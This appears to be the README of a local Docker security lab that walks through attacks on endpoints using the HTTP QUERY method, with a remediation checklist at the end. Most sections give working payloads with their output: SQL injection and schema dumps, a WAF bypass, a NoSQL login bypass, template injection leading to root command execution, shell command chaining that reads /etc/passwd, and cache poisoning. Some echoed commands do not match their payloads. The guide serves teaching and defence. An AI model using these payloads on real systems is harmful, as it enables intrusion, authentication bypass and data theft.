

# HTTP QUERY Method Security Lab & PoV Guide

## Architecture



---

## Vulnerability Summary

| # | Endpoint | Method | Vulnerability Class |
|---|---|---|---|
| **1** | `/api/search/products` | `QUERY` (+POST twin) | SQL injection (SQLite, raw interpolation) + WAF bypass differential |
| **2** | `/api/auth/login` | `QUERY` | NoSQL operator injection (`$ne`, `$regex`) → Auth bypass |
| **3** | `/api/render/email` | `QUERY` | Server-Side Template Injection (EJS) → RCE |
| **4** | `/api/export/report` | `QUERY` | OS command injection (`child_process.exec`) |
| **5** | `/api/search/catalog` | `QUERY` | Body-blind cache → Cache poisoning |

---

## Setup & Quick Start

### 1. Run inside Docker-Playground Directory

```bash
docker compose up -d --build
docker compose exec attacker python attack.py
```

### 2. Host-Side Manual Checks
*(Set `Content-Type` explicitly — `curl`'s `-d` otherwise defaults to form-encoding)*

```bash
curl -s -X QUERY http://localhost:3000/api/search/products \
     -H 'Content-Type: application/json' \
     -d '{"q":"'\'' OR 1=1 -- "}' | jq
```

### 3. Automated Scanning (`sqlmap`)
*(Optional pass against the lab — `sqlmap` supports custom methods)*

```bash
sqlmap -u "http://localhost:3000/api/search/products" --method=QUERY \
       --data='{"q":"x"}' --headers="Content-Type: application/json" --level=3 --batch
```

---

## Interactive Request & Response Trace

### 0. Method Semantics & Routing Probes

#### 0.1 Baseline `QUERY` Request
**Request:**
```http
QUERY /api/search/catalog HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"q": "monitor", "page": 1}
```

**Response:** `200 OK`
```json
{
  "cached": true,
  "query": "monitor",
  "total": 1,
  "results": [
    {
      "id": 3,
      "name": "27\" 4K Monitor",
      "category": "displays",
      "price": 329.99
    }
  ]
}
```

---

#### 0.2 Method Not Allowed (`GET`)
**Request:**
```http
GET /api/search/catalog HTTP/1.1
Host: localhost:3000
```

**Response:** `405 Method Not Allowed`
```json
{
  "error": "method not allowed"
}
```

---

#### 0.3 Pre-flight Options (`OPTIONS`)
**Request:**
```http
OPTIONS /api/search/catalog HTTP/1.1
Host: localhost:3000
```

**Response:** `204 No Content`

---

#### 0.4 Unknown / Unhandled Method (`BREW`)
**Request:**
```http
BREW /api/search/catalog HTTP/1.1
Host: localhost:3000
```

**Response:** `400 Bad Request`

---

#### 0.5 Valid Method, Non-Existent Route
**Request:**
```http
QUERY /api/nope HTTP/1.1
Host: localhost:3000
```

**Response:** `404 Not Found`
```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot QUERY /api/nope</pre>
</body>
</html>
```

---

### 1. SQL Injection via `QUERY` Body

#### 1.1 Baseline Search Request
**Request:**
```http
QUERY /api/search/products HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"q": "keyboard"}
```

**Response:** `200 OK`
```json
{
  "query": "keyboard",
  "count": 1,
  "results": [
    {
      "id": 2,
      "name": "Mechanical Keyboard",
      "category": "peripherals",
      "price": 89.99
    }
  ]
}
```

---

#### 1.2 Boolean Full Table Dump Payload
**Request:**
```http
QUERY /api/search/products HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"q": "' OR 1=1 -- "}
```

**Response:** `200 OK`
```json
{
  "query": "' OR 1=1 -- ",
  "count": 6,
  "results": [
    { "id": 1, "name": "Wireless Mouse", "category": "peripherals", "price": 24.99 },
    { "id": 2, "name": "Mechanical Keyboard", "category": "peripherals", "price": 89.99 },
    { "id": 3, "name": "27\" 4K Monitor", "category": "displays", "price": 329.99 },
    { "id": 4, "name": "USB-C Hub", "category": "accessories", "price": 39.99 },
    { "id": 5, "name": "Laptop Stand", "category": "accessories", "price": 29.99 },
    { "id": 6, "name": "Admin Panel License", "category": "software", "price": 0 }
  ]
}
```

---

#### 1.3 Database Schema Extraction via `UNION`
**Request:**
```http
QUERY /api/search/products HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"q": "' UNION SELECT 1, sql, 1, 1 FROM sqlite_master -- "}
```

**Response:** `200 OK`
```json
{
  "query": "' UNION SELECT 1, sql, 1, 1 FROM sqlite_master -- ",
  "count": 7,
  "results": [
    {
      "id": 1,
      "name": "CREATE TABLE products (\n    id INTEGER PRIMARY KEY,\n    name TEXT,\n    category TEXT,\n    price REAL\n  )",
      "category": 1,
      "price": 1
    },
    { "id": 1, "name": "Wireless Mouse", "category": "peripherals", "price": 24.99 },
    { "id": 2, "name": "Mechanical Keyboard", "category": "peripherals", "price": 89.99 },
    { "id": 3, "name": "27\" 4K Monitor", "category": "displays", "price": 329.99 },
    { "id": 4, "name": "USB-C Hub", "category": "accessories", "price": 39.99 },
    { "id": 5, "name": "Laptop Stand", "category": "accessories", "price": 29.99 },
    { "id": 6, "name": "Admin Panel License", "category": "software", "price": 0 }
  ]
}
```

---

#### 1.4 SQLite Timing Oracle / CPU DoS
**Request:**
```http
QUERY /api/search/products HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"q": "' OR (SELECT CASE WHEN (SELECT count(*) FROM products)=6 THEN randomblob(50000000) ELSE 0 END) -- "}
```

**Response:** `200 OK` *(Returned after thread delay; synchronous database operation blocks the Node.js event loop)*

---

### 2. Differential WAF Bypass (`POST` vs `QUERY`)

#### 2.1 Attack Payload via `POST` (Inspected by WAF)
**Request:**
```http
POST /api/search/products HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"q": "' OR 1=1 -- "}
```

**Response:** `403 Forbidden`
```json
{
  "error": "blocked by WAF",
  "rule": "/(\\bOR\\b|\\bAND\\b|\\bUNION\\b|\\bSELECT\\b)\\s+\\d/i"
}
```

---

#### 2.2 Identical Payload via `QUERY` (Bypasses WAF)
**Request:**
```http
QUERY /api/search/products HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"q": "' OR 1=1 -- "}
```

**Response:** `200 OK` *(WAF rules fail to inspect body on `QUERY` requests)*
```json
{
  "query": "' OR 1=1 -- ",
  "count": 6,
  "results": [
    { "id": 1, "name": "Wireless Mouse", "category": "peripherals", "price": 24.99 },
    { "id": 2, "name": "Mechanical Keyboard", "category": "peripherals", "price": 89.99 },
    { "id": 3, "name": "27\" 4K Monitor", "category": "displays", "price": 329.99 },
    { "id": 4, "name": "USB-C Hub", "category": "accessories", "price": 39.99 },
    { "id": 5, "name": "Laptop Stand", "category": "accessories", "price": 29.99 },
    { "id": 6, "name": "Admin Panel License", "category": "software", "price": 0 }
  ]
}
```

---

### 3. NoSQL Operator Injection Authentication Bypass

#### 3.1 Baseline Failed Authentication
**Request:**
```http
QUERY /api/auth/login HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"username": "admin", "password": "wrong"}
```

**Response:** `401 Unauthorized`
```json
{
  "ok": false,
  "error": "invalid credentials"
}
```

---

#### 3.2 Operator Injection (`$ne`)
**Request:**
```http
QUERY /api/auth/login HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"username": "admin", "password": {"$ne": ""}}
```

**Response:** `200 OK`
```json
{
  "ok": true,
  "role": "admin",
  "user": "admin"
}
```

---

#### 3.3 Regex Pattern Matching (`$regex`)
**Request:**
```http
QUERY /api/auth/login HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"username": {"$regex": "^adm"}, "password": {"$ne": "x"}}
```

**Response:** `200 OK`
```json
{
  "ok": true,
  "role": "admin",
  "user": "admin"
}
```

---

### 4. Server-Side Template Injection (EJS) → RCE

#### 4.1 SSTI Expression Evaluation
**Request:**
```http
QUERY /api/render/email HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"template": "<%= 7 * 7 %>"}
```

**Response:** `200 OK`
```text
49
```

---

#### 4.2 System Command Execution (`id`)
**Request:**
```http
QUERY /api/render/email HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"template": "<%= global.process.mainModule.require('child_process').execSync('id').toString() %>"}
```

**Response:** `200 OK`
```text
uid=0(root) gid=0(root) groups=0(root)
```

---

#### 4.3 Arbitrary File Read
**Request:**
```http
QUERY /api/render/email HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"template": "<%= global.process.mainModule.require('child_process').execSync('cat /app/data/products.txt | head -3').toString() %>"}
```

**Response:** `200 OK`
```text
1|Wireless Mouse|peripherals|24.99
2|Mechanical Keyboard|peripherals|89.99
3|27" 4K Monitor|displays|329.99
```

---

### 5. OS Command Injection

#### 5.1 Baseline Request
**Request:**
```http
QUERY /api/export/report HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"grep": "monitor"}
```

**Response:** `200 OK`
```json
{
  "command": "grep -i \"monitor\" /app/data/products.txt | head -20",
  "exit": 0,
  "output": "27\" 4K Monitor;displays;329.99\r\n",
  "stderr": "grep: /app/data/products.txt: No such file or directory\n"
}
```

---

#### 5.2 Command Chaining Payload
**Request:**
```http
QUERY /api/export/report HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"grep": "x\"; id #"}
```

**Response:** `200 OK`
```json
{
  "command": "grep -i \"x\" </dev/null; id; #\" /app/data/products.txt | head -20",
  "exit": 0,
  "output": "uid=0(root) gid=0(root) groups=0(root)\n",
  "stderr": ""
}
```

---

#### 5.3 System File Exfiltration
**Request:**
```http
QUERY /api/export/report HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"grep": "x\"; cat /etc/passwd | head -5 #"}
```

**Response:** `200 OK`
```json
{
  "command": "grep -i \"x\" </dev/null; cat /etc/passwd | head -5; #\" /app/data/products.txt | head -20",
  "exit": 0,
  "output": "root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\n",
  "stderr": ""
}
```

---

### 6. Body-Blind Cache Poisoning

#### 6.1 Initial Cache Seed Request (`"monitor"`)
**Request:**
```http
QUERY /api/search/catalog HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"q": "monitor", "page": 1}
```

**Response:** `200 OK`
```json
{
  "cached": true,
  "query": "monitor",
  "total": 1,
  "results": [
    {
      "id": 3,
      "name": "27\" 4K Monitor",
      "category": "displays",
      "price": 329.99
    }
  ]
}
```

---

#### 6.2 Secondary Request (`"keyboard"`) — Receives Poisoned Cache
**Request:**
```http
QUERY /api/search/catalog HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"q": "keyboard", "page": 1}
```

**Response:** `200 OK` *(Cache key ignores request body, serving stale `"monitor"` payload)*
```json
{
  "cached": true,
  "query": "monitor",
  "total": 1,
  "results": [
    {
      "id": 3,
      "name": "27\" 4K Monitor",
      "category": "displays",
      "price": 329.99
    }
  ]
}
```

---

#### 6.3 Tertiary Request (`"usb"`) — Persistent Poisoning
**Request:**
```http
QUERY /api/search/catalog HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"q": "usb", "page": 1}
```

**Response:** `200 OK`
```json
{
  "cached": true,
  "query": "monitor",
  "total": 1,
  "results": [
    {
      "id": 3,
      "name": "27\" 4K Monitor",
      "category": "displays",
      "price": 329.99
    }
  ]
}
```

---

## Framework & Server Support Matrix

| Layer | `QUERY` Support | Notes |
|---|---|---|
| **RFC 10008** | ✅ Spec Published | Proposed Standard (June 15, 2026); introduces `Accept-Query` header; cacheable with body-keyed caching. |
| **Node.js Core** (`node:http`) | ✅ Native | `http.METHODS` includes `QUERY` since v21.7.2 (`nodejs/node#51562`); `llhttp` parser accepts any method token. |
| **Express 4 / 5** | ⚠️ Workaround | No `app.query()` helper yet (`expressjs/express#5615`). Requires middleware checking `req.method === 'QUERY'`. |
| **Fastify** | ⚠️ Opt-in | Refuses `QUERY` until registered via `addHttpMethod('QUERY', { hasBody: true })`. |
| **FastAPI / Starlette** | ⚠️ Generic Routing | `@app.api_route(path, methods=["QUERY"])` works; `@app.query` is unhandled (`fastapi#5792`). Uvicorn (`httptools`) rejects `QUERY`—requires `h11` or Hypercorn. |
| **Python `http.server`** | ⚠️ Manual | Requires manual `do_QUERY` definition; missing handler returns `501`. |
| **Django** | ⚠️ Manual | `@require_http_methods(["QUERY"])` accepts arbitrary lists; `request.body` is method-agnostic. |
| **Go `net/http`** | ✅ Native | Go 1.22+ `ServeMux` patterns accept `"QUERY /path"` natively. |
| **Apache httpd** | ❌ Patch/Config | Unknown methods return `501`; requires `mod_allowmethods` or `mod_proxy` pass-through configuration. |
| **Nginx** | ⚠️ Basic | Basic upstream pass-through works; static-file serving yields `405` by default; policy via `limit_except`. |
| **Spring Boot** | ❌ No Enum Value | `RequestMethod` lacks `QUERY` (`spring#34993`). Tomcat accepts the token, allowing custom filter workarounds. |
| **ASP.NET Core** | ⚠️ Partial | `HttpMethod.Query` available on client in .NET 10; custom `[HttpMethods("QUERY")]` works on server. |
| **Browsers** | ❌ None | `fetch()` / `XHR` cannot send `QUERY` natively yet (server-to-server API use only). |
| **OpenAPI** | ✅ Modeled | OpenAPI 3.2+ explicitly models `QUERY` operations. |
| **WAFs** | ❌ Largely Blind | Body inspection is typically keyed strictly to `POST`/`PUT`/`PATCH`; `QUERY` bodies bypass default rules. |
---

## Remediation Checklist

- [ ] **Method Allow-Listing:** Reject unexpected methods with `405 Method Not Allowed` (or `501`) and include the `Allow` header. Never fall back to `GET` execution logic for unknown methods.
- [ ] **WAF & CDN Policies:** Enable body inspection for `QUERY` (e.g., ModSecurity: `SecRule REQUEST_METHOD "QUERY"` + `SecRequestBodyAccess On`). Re-run payload security test suites against `QUERY` endpoints.
- [ ] **Input Sanitization & Injection Prevention:**
  - Use parameterized queries (e.g., `better-sqlite3` `?` placeholders).
  - Avoid OS command execution (`exec`/`eval`).
  - Use static templates—never render untrusted user input directly into EJS/Jinja templates.
  - Whitelist allowed values for sort, page, and limit parameters.
- [ ] **Body-Aware Cache Keys:** Ensure all CDNs, reverse proxies, and internal caches hash the full raw request body byte-for-byte into the cache key, accompanied by `Vary: Content-Type`.
- [ ] **Front-End / Back-End Consistency:** Verify HTTP parser agreement across proxy chains to prevent HTTP request smuggling or desynchronization attacks.
- [ ] **Resource Limits & DoS Controls:** Enforce strict size limits on `QUERY` request bodies and cap complexity for query parameters (e.g., regex execution, heavy database functions).
- [ ] **Telemetry & Logging:** Log both the HTTP method and request body hashes for `QUERY` traffic. Set up security alerts for `QUERY` requests targeting sensitive endpoints.
